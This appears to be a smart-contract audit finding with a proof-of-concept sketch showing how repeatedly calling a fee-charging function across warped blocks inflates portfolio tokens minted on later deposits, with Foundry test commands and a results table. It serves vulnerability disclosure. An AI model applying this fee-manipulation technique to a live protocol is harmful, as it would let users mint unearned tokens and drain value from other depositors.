 ## Requirement
**My setup doens't deploy via proxy, so a circular dependecy arose between feeModule.sol and portfolio.sol**

- therefore, i added this function to FeeModule.sol
```sol
function ChangePortfolioAddress(address _portfolio) public {
   portfolio = _portfolio;
}
```
- And OfCourse this line:
```
import {IPortfolio} from  "src/contracts/core/interfaces/IPortfolio.sol";
```

**Now, All You have to do is to place gist in test/ folder such that test/POC.sol file is created**
- I have already provided a link to the gist in the issue comments



## The Attack

**`This attack outcomes depends on two things:`**
- the no of blocks, the attack is repeated in
- the timestamp difference between these blocks

**Analyze `_simulateAttacksInDifferentBlocks()`**
```diff
    function _simulateAttacksInDifferentBlocks() internal {
        vm.startPrank(attacker);
+        uint blocks = 20; // no of blocks
        for (uint i = 1; i < blocks; i++) {
+            vm.warp(block.timestamp + 50); //time-diff between blocks
            feeModule._chargeProtocolAndManagementFees();
        }
        vm.stopPrank();
    }
```
In Normal deposit, as per our current configurations, user will get  
- `9500000000000000`

**run this test**
```bash
forge test --contracts test/POC.sol --match-test test_NormalDeposit -vvv
```

**Now we wanna see change in protocol behaviour after it has been attacked:**

**Remember at this point, the alice is depositing after the protocol  has been attacked**


**`Here is table demonstrating different outcomes of increase in user portfolio balance, if he deposits the same amount after the protocol is attacked:`**


| Blocks | t+50             | t+10             | t+1              |
| ------ | ---------------- | ---------------- | ---------------- |
| 20     | 9500029476677719 | 9500005895327870 | 9500000589532575 |
| 200    | 9500308733951601 | 9500061745983933 | 9500006174579890 |
| 2000   | 9503101758218631 | 9500620270603930 | 9500062025233455 |
| 20000  | 9531077202869606 | 9506207323135757 | 9500620549828824 |



**where,**
- `blocks:`  *no of blocks attack is repeated in*
```sol
uint blocks = 20; // no of blocks
```
- `t + n:`  *timestamp difference between the no of blocks attack is repeated in*
```sol
vm.warp(block.timestamp + 50); //time-diff between blocks
```

**Try it yourself by running this test with different configurations**
```bash
forge test --contracts test/POC.sol --match-test test_AfterAttackDeposit -vvv
```

`[+]` **At this point it is clear how much protocol's calculations are affected, due to this attack the protocol can be rigged in lot of unimaginable ways, like you just saw in the table above how much more alice's same deposits yeild**

`[+]` **He should be only getting `9500000000000000` but due to the attack he was able to increase that number from least `9500000589532575` to `9531077202869606` as shown in the table above**

`[+]` **Which is `589532575` to `31077202869606` more tokens**

`[+]` **that means a user can mint more than `31077202869606` portflio tokens if he does the same deposits after the attack**